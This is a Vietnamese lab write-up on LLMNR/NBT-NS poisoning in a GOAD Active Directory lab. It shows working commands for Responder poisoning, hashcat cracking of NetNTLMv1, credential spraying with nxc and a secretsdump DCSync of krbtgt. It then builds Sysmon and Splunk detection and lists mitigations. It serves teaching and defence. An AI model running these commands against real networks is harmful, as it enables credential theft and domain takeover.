







# Case 5 — LLMNR/NBT-NS Poisoning với Responder (T1557.001)

> Part 5 của series recap lab GOAD-Light + Splunk. Xem [Part 0 — Overview](00-overview-lab-setup.md), [Part 1 — Kerberoasting](01-case1-kerberoasting.md), [Part 2 — AS-REP Roasting](02-case2-asrep-roasting.md), [Part 3 — Constrained Delegation](03-case3-constrained-delegation.md), [Part 4 — Constrained Delegation no PT / RBCD](04-case4-constrained-delegation-no-protocol-transition.md).
>
> Case này khác hẳn 4 case trước ở **hai điểm cốt lõi**: (1) tấn công diễn ra ở **tầng mạng của subnet**, không cần credential nào để bắt đầu — đây là một trong những đòn *initial access* phổ biến nhất đời thực; (2) về phòng thủ, nó **phơi bày giới hạn của việc chỉ giám sát Windows Security log** — buộc lần đầu phải thêm một nguồn log mới: **Sysmon**.

## Bối cảnh

Xuất phát điểm mới toanh: attacker chỉ cần **đứng chung subnet** (máy `goad-soc` — `192.168.56.50`), **chưa có bất kỳ credential nào**.

Cơ chế: khi một máy Windows phân giải một cái tên mà **DNS trả lời thất bại** (gõ sai tên share, server đã chết, lookup `WPAD`...), Windows **không bỏ cuộc** mà tụt xuống 2 giao thức dự phòng — **LLMNR** (UDP 5355) và **NBT-NS** (UDP 137) — **broadcast/multicast ra cả subnet** hỏi "ai là `X`?". Không có cơ chế xác thực nào cho câu trả lời. Kẻ tấn công chạy **Responder** để trả lời **mọi** câu hỏi đó: "tôi là `X` nè, xác thực vào tôi đi" → nạn nhân gửi **Net-NTLM hash** → attacker bắt được, đem crack offline (hoặc relay — Case 6).

## Bước 1 — Recon: nghe thụ động (Responder Analyze mode)

Recon ở đây không phải quét host, mà là **lắng nghe** xem trên subnet có ai đang broadcast LLMNR/NBT-NS không. Responder có **Analyze mode** (`-A`): chỉ nghe, **không** trả lời/không đầu độc — nên chưa phải tấn công.

```bash
sudo python3 Responder.py -I ens37 -A
```



Chú ý card mạng: `ens37` = subnet lab `192.168.56.0/24` (KHÔNG phải `ens33` = card NAT — nạn nhân không nằm ở đó). Để chạy 2-3 phút, đọc output và **lọc nhiễu**:

**Nhiễu (bỏ qua):**
- `[MDNS] ... .local` — mỗi máy tự "xướng tên" mình (kingslanding.local, winterfell.local...). Bình thường.
- `192.168.56.1` hỏi `_googlecast._tcp`, `_spotify-connect._tcp` — là **máy Windows host** (gateway VMware) rò mDNS Chromecast/Spotify. Không liên quan lab.
- Host hỏi **chính tên mình** — tự phân giải, vô hại.

**Tín hiệu (mục tiêu thật):**
```
[NBT-NS] Request by 192.168.56.11 for MEREN,  ignoring
[LLMNR]  Request by 192.168.56.11 for BRAVOS, ignoring   (lặp đi lặp lại)
```
`winterfell` (DC02, `.11`) liên tục hỏi `MEREN` và `BRAVOS` — hai cái tên **không tồn tại** trong lab. Một máy cứ đòi phân giải mãi những tên chết = có **scheduled task/bot** đang cố truy cập `\\MEREN` / `\\BRAVOS`. DNS bó tay → tụt xuống LLMNR/NBT-NS → **đúng con mồi**.

## Bước 2 — Khai thác: bật poisoning

Bỏ cờ `-A` = Responder chuyển từ "chỉ nghe" sang **trả lời/đầu độc thật**:

```bash
sudo python3 Responder.py -I ens37
```

Để chạy vài phút. Kết quả (chạy 5 phút bắt được **hai** tài khoản):
```
[SMB] NTLMv1-SSP Username : NORTH\robb.stark      (task đòi \\BRAVOS — user thường)
[SMB] NTLMv1-SSP Username : NORTH\eddard.stark    (task đòi \\MEREN  — DOMAIN ADMIN!)
[SMB] NTLMv1-SSP Hash     : robb.stark::NORTH:8274D623...:79C4CBB1...:e55e78cd5c4535de
```

Hai điểm cực quan trọng:

1. **Bắt được cả một Domain Admin.** Winterfell chạy 2 scheduled task dưới 2 tài khoản; task đòi `\\MEREN` chạy dưới `eddard.stark` — chính DA đã giả danh ở [Case 3](03-case3-constrained-delegation.md).
2. **Đây là `NTLMv1`, không phải v2.** Windows hiện đại mặc định gửi NTLMv2. Lab trả về NTLMv1 = có misconfig **NTLM downgrade** (`LmCompatibilityLevel` bị hạ — lỗ hổng `ntlmdowngrade` cấy trên dc02, và là cầu nối sang Case 6). NTLMv1 yếu hơn nhiều.

**Ghi chú quan sát (đắt giá cho phần detection):** Responder cũng poison luôn cái tên `Kuyenda` do **chính máy host** (`192.168.56.1`) lỡ hỏi. Bài học: **Responder trả lời BỪA MỌI cái tên** trên subnet, không phân biệt — nó "ồn" và hung hăng. Chính đặc tính này là **nền tảng để phát hiện** nó (canary/deception, hoặc Sysmon phía dưới).

## Bước 3 — Chứng minh impact: crack → local admin trên DC → DCSync

**Crack hash (NetNTLMv1 = hashcat mode 5500):**
```bash
cp ~/Responder/logs/SMB-NTLMv1-SSP-*.txt ~/ntlmv1.txt
hashcat -m 5500 ~/ntlmv1.txt ~/rockyou.txt --force
```



`robb.stark` = **`sexywolfy`** (mật khẩu yếu, có trong rockyou). `eddard.stark` (DA) mật khẩu mạnh → wordlist bó tay.

> **Nhánh nâng cao cho mật khẩu mạnh:** NTLMv1 vẫn "chết" kể cả với DA — dùng **challenge cố định `1122334455667788`** (chỉnh `Responder.conf`) rồi đưa response qua **crack.sh** (bẻ DES) → ra thẳng **NT hash bất kể mật khẩu mạnh cỡ nào** → pass-the-hash. Đây chính là lý do "NTLM downgrade" là lỗ hổng nghiêm trọng, và vì sao bắt được NTLMv1 của một DA là jackpot.

**Credential mới chỉ là "có chữ" — phải dùng được mới tính impact.** Quét `robb.stark` lên cả 3 máy:
```bash
nxc smb 192.168.56.10 192.168.56.11 192.168.56.22 -u robb.stark -p sexywolfy
```
```
192.168.56.22 CASTELBLACK   [+] robb.stark:sexywolfy
192.168.56.11 WINTERFELL    [+] robb.stark:sexywolfy (Pwn3d!)      <-- local admin trên DC!
192.168.56.10 KINGSLANDING  [-] STATUS_LOGON_FAILURE               <-- khác domain (root)
```

`(Pwn3d!)` trên `.11` = **`robb.stark` là local admin trên một Domain Controller.** Admin trên DC = đọc thẳng `NTDS.dit`. DCSync để chốt:

```bash
secretsdump.py 'north.sevenkingdoms.local/robb.stark:sexywolfy@192.168.56.11' -just-dc-user 'north/krbtgt'
```
```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c167d66d9df1b5c67eb418418218e97e:::
```

Hash `krbtgt` của `north` — **y hệt Case 4, nhưng đạt được qua con đường NTLM/network hoàn toàn khác**. Nhìn lại cả quãng: **một cú bật Responder** (tay trắng) → NTLMv1 → crack `sexywolfy` → hoá ra admin trên DC → sở hữu domain. Ngắn và dễ hơn đường Kerberos của Case 3/4 rất nhiều — đó là lý do LLMNR poisoning là ưu tiên phòng thủ hàng đầu.

## Bước 4 — Phát hiện: bài học lớn nhất của Case 5

4 case trước đều viết SPL trên EventCode của **Windows Security log**. Case 5 **không làm vậy được**:

> **LLMNR/NBT-NS poisoning xảy ra ở TẦNG MẠNG.** Cú đầu độc + bắt hash diễn ra trực tiếp giữa winterfell ↔ Responder, **không đi qua DC để validate** (Responder không forward về DC). Nên nó **KHÔNG để lại event nào trong Windows Security log.** SIEM chỉ ăn Security log là **mù hoàn toàn** với cú poison này.

Cái Security log *có* thấy chỉ là **hậu quả** (lúc *dùng* cred robb.stark để DCSync → 4662, logon từ IP lạ) — không phải bản thân cú poison. Đây là lần đầu ta chạm giới hạn của "chỉ Security log", và phải **thêm nguồn log mới: Sysmon**.

### Sysmon là gì

**Sysmon (System Monitor)** — công cụ Sysinternals, cài như driver + service, ghi hoạt động hệ thống chi tiết hơn Security log rất nhiều (process kèm hash/command line, **kết nối mạng**, DNS query...) vào channel riêng `Microsoft-Windows-Sysmon/Operational`. Với Case 5, ta cần **Event ID 3 (Network Connection)** — nó bắt được khoảnh khắc winterfell chủ động nối tới máy attacker.

### ① Cài Sysmon trên winterfell

```powershell
Invoke-WebRequest -Uri "https://live.sysinternals.com/Sysmon64.exe" -OutFile "C:\setup\Sysmon64.exe"
# config tối giản: chỉ log Event 3 cho 3 cổng liên quan
@'
<Sysmon schemaversion="4.90">
  <EventFiltering>
    <RuleGroup groupRelation="or">
      <NetworkConnect onmatch="include">
        <DestinationPort condition="is">445</DestinationPort>
        <DestinationPort condition="is">137</DestinationPort>
        <DestinationPort condition="is">5355</DestinationPort>
      </NetworkConnect>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
'@ | Out-File -FilePath C:\setup\sysmon-case5.xml -Encoding ascii
C:\setup\Sysmon64.exe -accepteula -i C:\setup\sysmon-case5.xml
```



> Lưu ý học Sysmon: config chỉ *lọc* Event 3 theo cổng; các loại event khác (ProcessCreate...) **không khai báo = Sysmon mặc định vẫn log** → nhiễu. Production nên dùng config đầy đủ (SwiftOnSecurity/Olaf Hartong) loại trừ chúng.

### ② Dạy Universal Forwarder đẩy channel Sysmon về Splunk

UF hiện mới đọc mỗi Security. Thêm channel Sysmon vào `inputs.conf` (đúng file mà cờ `WINEVENTLOG_SEC_ENABLE=1` đã tạo):

```powershell
$inputs = "C:\Program Files\SplunkUniversalForwarder\etc\apps\SplunkUniversalForwarder\local\inputs.conf"
Add-Content -Path $inputs -Value @'

[WinEventLog://Microsoft-Windows-Sysmon/Operational]
disabled = 0
renderXml = false
'@
Restart-Service SplunkForwarder
```



Kiểm chứng Splunk đã nhận:
```spl
index=* sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" earliest=-15m
| stats count by host EventCode
```



### ③ Tấn công lại + soi Sysmon

Bật lại Responder poisoning để sinh cú kết nối winterfell→attacker, rồi soi Event 3. **Đây là quá trình mài rule qua nhiều vòng — phần học thuật giá trị:**

**Vòng 1 — lọc multicast/broadcast IPv4:** loại `224.0.0.0/4` và `.255`.
```spl
... EventCode=3 (DestinationPort=137 OR DestinationPort=5355)
| where NOT cidrmatch("224.0.0.0/4", DestinationIp) AND NOT match(DestinationIp,"\.255$")
```
→ **146 event, vẫn đầy nhiễu.** Nhìn kỹ: đa số đích là `ff02:0:0:0:0:0:1:3`.



**Bài học:** `ff02::1:3` là **địa chỉ multicast IPv6 của LLMNR** — **LLMNR chạy trên CẢ IPv4 lẫn IPv6**, filter cũ chỉ loại IPv4 nên IPv6 lọt hết.

**Vòng 2 — lọc bằng `cidrmatch` vào subnet lab:** một phát loại sạch cả `ff02::` (IPv6) lẫn `224.x`:
```spl
... | where cidrmatch("192.168.56.0/24", DestinationIp) AND NOT match(DestinationIp,"\.255$") AND NOT match(SourceIp,"\.255$")
```
→ **12 event.** Sạch hơn nhiều, nhưng đích không chỉ có `.50`:



Còn lẫn `.10` (kingslanding), `.22` (castelblack), `.1` (gateway) — đó là **name-res hợp lệ tới host thật** (máy thật tự trả lời tên của chính nó thì unicast follow-up là bình thường). Tức "unicast trên 137/5355" **chưa đủ** để kết tội.

**Vòng 3 (rule cuối) — allowlist các responder hợp lệ:** cái *thật sự* bất thường là nối tới một máy **KHÔNG phải responder hợp lệ** — ở đây `.50` là box Linux/Splunk, chẳng có lý do gì trả lời name resolution của Windows.
```spl
index=* sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 (DestinationPort=137 OR DestinationPort=5355)
| where cidrmatch("192.168.56.0/24", DestinationIp) AND NOT match(DestinationIp,"\.255$") AND NOT match(SourceIp,"\.255$")
| search NOT DestinationIp IN ("192.168.56.1","192.168.56.10","192.168.56.11","192.168.56.22")
| table _time host User Image SourceIp DestinationIp DestinationPort
```
→ **Sạch tuyệt đối: chỉ còn `winterfell → 192.168.56.50` trên 137/5355** = đúng cú poisoning. `svchost.exe` (NETWORK SERVICE) = dịch vụ DNS Client làm LLMNR; `System` = NBT-NS.

## Alert

| Thiết lập | Giá trị |
|---|---|
| Tên | `Case5 - LLMNR/NBT-NS Poisoning - unicast to rogue responder` |
| Nguồn log | **Sysmon** `Microsoft-Windows-Sysmon/Operational` (không phải Security log) |
| Alert Type | Scheduled, Cron `*/5 * * * *`, Last 15 minutes |
| Trigger | Number of Results > 0, For each result |
| Action | Add to Triggered Alerts, Severity **High** |

**Hai giới hạn (ghi trung thực):**
- Allowlist cần bảo trì; và nếu chính một host trong allowlist bị chiếm rồi chạy Responder thì rule này mù — điểm yếu cố hữu của cách allowlist.
- Muốn detect **chính xác theo tên** (không cần allowlist): nâng lên **Sysmon Event 22 (DnsQuery)** — bắt query cho tên "rác" (BRAVOS/MEREN) resolve ra IP lạ. Chuẩn hơn, để dành làm bản nâng cấp.

## Cách phòng thủ thật (mitigation)

Khác các case Kerberos (khó tắt tính năng), LLMNR/NBT-NS **gần như không ai cần** → **tắt hẳn**:
- **LLMNR:** GPO → `Computer Configuration → Administrative Templates → Network → DNS Client → Turn Off Multicast Name Resolution = Enabled`.
- **NBT-NS:** tắt trên từng NIC (hoặc qua DHCP option 001) — `NetBIOS over TCP/IP = Disabled`.
- **NTLM downgrade:** ép `LmCompatibilityLevel = 5` (chỉ NTLMv2), và bật **SMB signing** để chặn cả relay (Case 6).
- **Deception:** thả một canary định kỳ hỏi tên rác — có ai trả lời = có poisoner.

## Tóm tắt kỹ thuật

| Mục | Chi tiết |
|---|---|
| ATT&CK | [T1557.001 — LLMNR/NBT-NS Poisoning and SMB Relay](https://attack.mitre.org/techniques/T1557/001/) |
| Điều kiện cần | Chỉ cần **chung subnet** — không cần credential |
| Nạn nhân | Bot trên winterfell đòi tên ma `MEREN`/`BRAVOS` → chạy dưới `robb.stark` và `eddard.stark` (DA) |
| Điểm khuếch đại | **NTLM downgrade** → bắt được NTLMv1 (crack dễ; DA thì dùng crack.sh) |
| Impact | crack `robb.stark` → **local admin trên DC** → DCSync `krbtgt` = sở hữu domain |
| Bài học phòng thủ | Security log **mù** với tấn công tầng mạng → phải thêm **Sysmon** (nguồn log mới); LLMNR chạy cả IPv4 lẫn IPv6; unicast trên 137/5355 tới responder lạ = chữ ký |
| Nguồn log detection | **Sysmon Event 3** (Network Connection) — cột mốc đầu tiên detection không dựa Security log |
